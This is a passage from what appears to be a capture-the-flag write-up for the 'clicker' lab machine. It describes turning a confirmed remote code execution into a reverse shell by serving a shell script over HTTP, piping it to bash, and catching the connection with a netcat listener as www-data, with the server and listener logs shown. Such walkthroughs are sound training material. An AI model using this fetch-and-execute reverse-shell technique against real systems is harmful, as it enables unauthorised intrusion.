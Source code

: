 It worked! The id command was executed. Now, we can leverage this RCE to get a reverse shell. I'm not sure if special characters work here, so I'm not gonna do anything fancy. Just gonna set up a shell script from a HTTP server and pipe it to bash.

![shell](assets/shell.png)

```
$ python3 -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...
::ffff:10.10.11.232 - - [05/Oct/2023 20:56:24] "GET /shell.sh HTTP/1.1" 200 -
```

```
$ nc -lvvvnp 4444 -s 10.10.16.31
Listening on 10.10.16.31 4444 (krb524)
Connection from 10.10.11.232:53864
bash: cannot set terminal process group (1200): Inappropriate ioctl for device
bash: no job control in this shell
www-data@clicker:/var/www/clicker.htb/exports$ 
```

It worked! We now have a shell as www-data.

## Shell as jack